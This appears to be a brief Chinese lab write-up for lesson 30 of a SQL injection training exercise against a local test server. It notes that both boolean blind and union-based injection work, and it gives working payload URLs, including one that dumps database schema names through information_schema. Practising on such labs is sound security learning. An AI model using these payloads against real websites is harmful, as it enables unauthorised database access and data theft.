 # Lesson-30
```
Bool盲注-,-明注
```

和上道题思路一样
可以通过盲注也可以明注

明注验证Payload : 
```
http://127.0.0.1/Less-30/?id=0%22union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata--+
```

盲注验证Payload : 
```
http://127.0.0.1/Less-30/?id=0%22||0--+
http://127.0.0.1/Less-30/?id=0%22||1--+
```
